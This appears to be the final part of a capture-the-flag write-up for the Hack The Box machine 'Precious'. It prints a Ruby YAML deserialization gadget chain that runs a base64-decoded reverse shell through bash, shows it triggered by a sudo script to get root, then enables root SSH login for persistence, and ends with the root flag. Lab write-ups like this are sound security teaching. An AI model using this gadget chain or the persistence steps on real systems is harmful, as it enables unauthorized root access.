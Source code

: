 ```yml
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: /bin/echo <BASE64_REVSHELL_PAYLOAD> | /usr/bin/base64 -d | /bin/bash -i
         method_id: :resolve
```

I'll transfer it to Precious.

### Exploitation

Let's exploit the Ruby deserialization vulnerability to execute our payload:

```sh
henry@precious:/tmp$ sudo "/usr/bin/ruby" "/opt/update_dependencies.rb"
```

If we check our listener:

```
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.189] 60456
root@precious:/tmp#
```

It caught the reverse shell!

### Stabilizing the shell

Our home folder doesn't contain a `.ssh` folder, so I'll create one. Then I'll
create a private key and I'll add the corresponding key to `authorized_keys`.

It won't be enough to connect over SSH to Precious though, since the
`/etc/ssh/sshd_config` has the line `PermitRootLogin no`. I'll set it to `yes`,
and I'll restart the SSH service.

Finally, I'll connect over SSH to Precious. I have a much more stable shell now!

## System enumeration

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@precious:~# cat "/root/root.txt"
```

```
827807d318ec9d8941ea005dcd767bdf
```

# Afterwords
